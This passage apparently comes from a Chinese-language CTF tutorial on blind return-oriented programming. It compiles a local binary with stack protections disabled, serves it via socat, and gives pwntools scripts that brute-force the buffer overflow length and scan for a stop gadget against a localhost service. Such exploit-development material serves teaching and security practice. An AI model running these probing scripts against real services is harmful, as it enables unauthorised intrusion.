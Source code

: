 ```
#注释头
 
gcc -z noexecstack -fno-stack-protector -no-pie brop.c -o brop
socat tcp-listen:10001,fork exec:./brop,reuseaddr &

```

2. 程序不打印我们的输入，并且输入多个 %p 没什么反应，那么应该就不是格式化字符串盲打，尝试栈溢出行不行，使用脚本爆破一下：

```
#注释头
 
def getbufferflow_length():
    i = 1
    while 1:
        try:
            sh = remote('127.0.0.1', 10001)
            sh.recvuntil('WelCome my friend,Do you know password?\n ')
            sh.send(i * 'a')
            output = sh.recv()
            sh.close()
            if not output.startswith('No password'):
                return i - 1
            else:
                i += 1
        except EOFError:
            sh.close()
            return i - 1
 
buf_size = getbufferflow_length()
log.info("buf_size:%d"%buf_size)

```

不断尝试，如果没有接收到 “No password” 那就代表程序出错，栈溢出覆盖到了返回地址，这时候就退出，其它错误也退出。最后爆破出来为 72 个字节，那么 buf 的缓冲区就是 72-8(rbp)=64 个字节。(总感觉这里有点问题，如果真是 blind，那么肯定也不知道是 32 位还是 64 位啊，那么就应该两种方案都要尝试一下吧)

3. 寻找可以使得程序挂起的 stop_gadget。这个 stop_gadget 是什么不重要，只要能让程序不崩溃，能够在之后探索其它可以 rop 的时候接收到正确的反馈，那么是什么都可以。

```
#注释头
 
def get_stop_addr(buf_size):
    addr = 0x400000
    while True:
        sleep(0.1)#缓冲
        addr += 1
        payload = "A"*buf_size
        payload += p64(addr)#probe_addr
        try:
            sh = remote('127.0.0.1', 10001)
            sh.recvline()
            sh.sendline(payload)
            sh.recvline()
            sh.close()
            log.info("stop address: 0x%x" % addr)
            return addr
        except EOFError as e:#crash and restart
            sh.close()
            log.info("bad: 0x%x" % addr)
        except:#other error
            log.info("Can't connect")
            addr -= 1

```
